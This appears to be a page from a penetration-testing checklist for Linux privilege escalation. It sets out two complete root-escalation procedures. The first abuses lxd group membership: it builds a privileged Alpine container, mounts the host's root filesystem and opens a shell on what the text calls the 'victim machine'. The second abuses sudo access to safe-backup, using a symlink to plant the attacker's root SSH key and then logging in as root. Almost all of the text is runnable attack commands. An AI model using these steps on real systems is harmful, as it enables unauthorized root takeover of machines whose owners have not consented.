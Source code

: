 * [ ] Is the user beloging to lxd?

```
 # clone the repo and build an alpine image
 git clone https://github.com/saghul/lxd-alpine-builder
 cd lxd-alpine-builder
 sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
 sudo ./build-alpine -a i686

 # transfer the image to the target, then import the image
 lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

 # before running the image, start and configure the lxd storage pool as default 
 lxd init

 # run the image
 lxc init myimage mycontainer -c security.privileged=true

 # mount the /root into the image
 lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

 # pop the shell
 lxc start mycontainer
 lxc exec mycontainer /bin/sh
```

* [ ] Ability to use [safe-backup](https://github.com/scrwdrv/safe-backup) as another user (root)?

```
 # you can install safe-backup on your system, now you can
 # potentially backup whatever you want e.g.: your root public ssh key!

 ## Preparation
 ### ON ATTACKING MACHINE
 sudo safe-backup -i /root/.ssh/ -o /tmp/backup
 # copy the safe-backup's encryption key to the /tmp/backup directory
 sudo cp /root/.config/safe-backup/key.safe /tmp/backup/key.safe
 # transfer them to the target machine

 ## Getting ready
 ### ON TARGET MACHINE
 # you have to import the newly downloaded encryption key :)
 sudo /usr/bin/safe-backup --import-key /path/where/is/key.safe
 # When decrypting files, safe-backup creates # a new directory
 # with the same name as the backup but without the .bua extension.
 # If this directory already exists, the existing directory is used
 #rather than a new one being created. We can exploit this by
 # creating a symbolic link to /root/.ssh and having safe-backup
 # decrypt folders into this directory.
 ln -s /root/.ssh /path/where/is/-root-.ssh
 
 ## Exploitation
 ### ON TARGET MACHINE
 sudo safe-backup -d /path/where/is/-root-.ssh.bua
 ### ON ATTACKING MACHINE
 sudo ssh -i /root/.ssh/id_rsa root@$IP
```

